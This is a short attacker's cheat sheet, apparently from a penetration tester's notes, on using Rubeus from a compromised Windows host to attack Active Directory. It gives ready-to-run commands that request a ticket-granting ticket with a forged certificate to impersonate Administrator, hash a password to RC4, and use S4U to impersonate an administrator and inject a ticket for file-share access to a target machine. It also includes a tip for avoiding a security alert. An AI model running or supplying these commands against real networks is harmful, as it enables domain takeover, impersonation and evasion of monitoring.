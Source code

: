 # Rubeus

Rubeus is Active Directory exploitation tool that is prodominately used from compromised domain-joined Windows host, so gain access and compile [Rubeus](https://github.com/GhostPack/Rubeus) on the target machine. Compilation instructions can be found [here](https://github.com/GhostPack/Rubeus#compile-instructions)

Impersonate a User for [[AD-Certificate-Exploitation]], use Rubeus to request a TGT using the certificate to verify that the certificate is trusted - [[AD-Certificate-Exploitation]] and [[AD-Persistence-Certificates]]
```powershell
Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:$generated-cert /password:$cert-password /outfile:$output.pfx /domain:$domain /dc:$dc-ip
# /user has to match the UPN for the certificate
# set /enctype to avoid overpass-the-hash alert
# /dc: set to DC that has CA service running!
```


In [[GenericAll]] abuse; we can then use hash the plaintext password into its RC4_HMAC form:

```powershell
Rubeus.exe hash /password:Summer2018!
```

And finally we can use Rubeus' *s4u* module to get a service ticket for the service name (sname) we want to "pretend" to be "admin" for. This ticket is injected (thanks to /ptt), and in this case grants us access to the file system of the TARGETCOMPUTER:

```powershell
Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:administrator /msdsspn:cifs/TARGETCOMPUTER.testlab.local /ptt
```